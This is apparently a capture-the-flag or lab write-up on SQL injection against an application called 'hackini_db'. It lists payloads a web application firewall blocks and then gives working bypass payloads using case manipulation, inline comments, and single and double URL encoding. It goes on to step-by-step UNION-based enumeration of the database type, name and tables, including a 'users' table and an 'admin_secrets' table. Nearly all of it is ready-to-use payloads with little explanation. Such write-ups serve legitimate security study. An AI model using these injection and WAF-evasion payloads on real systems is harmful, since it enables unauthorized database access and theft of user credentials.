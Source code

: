 ## WAF Bypass Techniques

The application has a WAF that blocks common payloads:

```sql
-- Blocked payloads
' OR 1=1 --
' UNION SELECT * FROM users --
' AND (SELECT COUNT(*) FROM information_schema.tables)>0 --
```

### Bypass Method 1: Case Manipulation

```sql
-- Working payload
' oR 1=1 --
' UniOn SeLeCt * FrOm users --
```

### Bypass Method 2: Comment Variations

```sql
-- Using /**/ comments
' OR/**/1=1/**/--
' UNION/**/SELECT/**/username,password/**/FROM/**/users/**/--
```

### Bypass Method 3: Encoding

```sql
-- URL encoding
%27%20OR%201%3D1%20--
-- Double URL encoding
%2527%2520OR%25201%253D1%2520--
```

## Database Enumeration

### Step 1: Determine Database Type

```sql
-- MySQL detection
' AND (SELECT SUBSTRING(VERSION(),1,1))='5' --

-- Response indicates MySQL 5.7
```

### Step 2: Extract Database Schema

```sql
-- Get database name
' UNION SELECT database(),null,null --
# Result: hackini_db

-- Get table names
' UNION SELECT table_name,null,null FROM information_schema.tables WHERE table_schema='hackini_db' --
# Tables: users, products, orders, admin_secrets
```
